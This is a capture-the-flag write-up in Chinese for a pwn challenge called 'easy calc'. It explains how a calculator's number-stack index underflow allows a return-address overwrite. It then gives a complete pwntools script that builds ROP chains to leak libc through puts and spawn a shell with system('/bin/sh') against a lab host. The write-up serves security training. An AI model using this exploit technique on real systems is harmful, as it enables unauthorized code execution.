

# easy calc

> 简单存在问题的计算器

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.17|

## 解题思路

主函数很复杂，一下子也不知道从哪里逆起，那么可以先尝试fuzz一下。输了一个 `+`
号，发现崩溃了，动调可以看到固定会往前访问 1 个 DWORD，如果输入 `0+`
的话就会往计算函数的返回地址上写 0。

进一步阅读代码可知在从数字栈中弹出是先自减再检查，因此我们可以利用这个特性，
使栈大小变成 -1 （不能再小了，因为 pop 数字有检查，再小始终只能读到 0），
这样在这个计算器向数字栈压入计算结果时就能溢出数字栈边界，往 `push_number`
的函数返回地址上写。

如果我们能够利用计算器，将多个地址压到数字栈上，就能构造 rop。思路很简单，
用 `puts` 泄露 libc，再调用 `system` 开 shell。问题是如何 push 这么多数字上去呢？

由于栈是先进后出的，因此我们需要利用 `(` 来反向构造压入的数字，最后一个数字为基准，
然后依次向前运算。并且由于程序没有处理一元符号运算，所以我们还得手动把负数转换为 `0-...`。
利用 `(` 的优先级，我们可以实现多次压入数字，然而题目对括号的处理同样有问题，
需要在末尾追加额外的运算符才行。最终如脚本所示，实现反向构造参数，实现 rop。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './easy_calc'

def payload(lo: int):
    global t
    elf = ELF(EXE)
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
        libc = elf.libc
    else:
        t = remote('10.1.100.76', 8888)
        libc = ELF('./libc.so.6')

    def construct(*args: int) -> bytes:
        numbers = list(reversed(args))
        stack = [numbers[0]]
        for i, e in enumerate(numbers[1:], start=1):
            stack.append(e - numbers[i - 1])
        stack = stack[::-1]
        ret = ''
        for e in stack[:-1]:
            ret += f'{e}+(' if e >= 0 else f'0-{-e}+('
        ret += str(stack[-1]) + ')+' * (len(stack) - 1) + '+'
        return ret.encode()

    regs = ROP(elf)
    chain1 = construct(regs.ret.address, regs.rdi.address, elf.got['puts'], elf.plt['puts'], 0x401531)
    info(f'{chain1 = }')
    t.send(chain1)

    data = t.recvuntil(b'\nHello!', drop=True)
    libc_base = u64(data[-6:] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    chain2 = construct(regs.ret.address, regs.ret.address, regs.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'])
    info(f'{chain2 = }')
    t.send(chain2)

    t.clean()
    t.interactive()
    t.close()
```


